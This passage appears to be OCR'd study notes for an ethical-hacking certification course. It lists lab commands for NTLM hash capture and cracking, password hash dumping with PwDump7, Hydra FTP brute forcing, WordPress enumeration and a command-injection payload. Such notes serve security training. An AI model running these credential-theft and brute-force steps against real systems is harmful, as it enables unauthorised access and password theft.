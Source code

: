 ```
Credentials > Windows > Username & Password
Save policy > Create new scan > User Defined
Enter name & Target
Schedule tab > Turn of Enabled
Hit launch from drop-down of save.

------------------------------------------------------
>>>>Module 06 : System Hacking
------------------------------------------------------
>>NTLM Hash crack :
responder -I eth0
usr\share\responder\logs --> Responder log location
john /usr/share/responder/logs/ntlm.txt


>>Rainbowtable crack using Winrtgen :

Open winrtgen and add new table
Select ntlm from Hash dropdown list.
Set Min Len as 4, Max Len as 6 and Chain Count 4000000
Select loweralpha from Charset dropdown list (it depends upon Password).
rcrack_gui.exe to crack hash with rainbow table

>>Hash dump with Pwdump7 and crack with ohpcrack :

wmic useraccount get name,sid --> Get user acc names and SID
PwDump7.exe > c:\hashes.txt
Replace boxes in hashes.txt with relevant usernames from step 1.
Ophcrack.exe -> load -> PWDUMP File
Tables -> Vista free -> select the table directory -> crack

------------------------------------------------------
>>Module 08 : Sniffing
------------------------------------------------------

http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 
Capture traffic from remote interface via wireshark
Capture > Options > Manage Interfaces 
Remote Interface > Add > Host &  Port (2002)
Username & password > Start

------------------------------------------------------
>>>Module 13 : Hacking Web Servers
------------------------------------------------------
FTP Bruteforce with Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

>>Module 14 : Hacking Web Applications

Wordpress
wpscan --url http://10.10.10.12:8080/CEH --enumerate u

(--api-token <API Token>)

WP password bruteforce
msfconsoleuse auxiliary/scanner/http/wordpress_login_enum

RCE 
ping 127.0.0.1 | hostname | net user

------------------------------------------------------
>>>>Module 15 : SQL Injection
```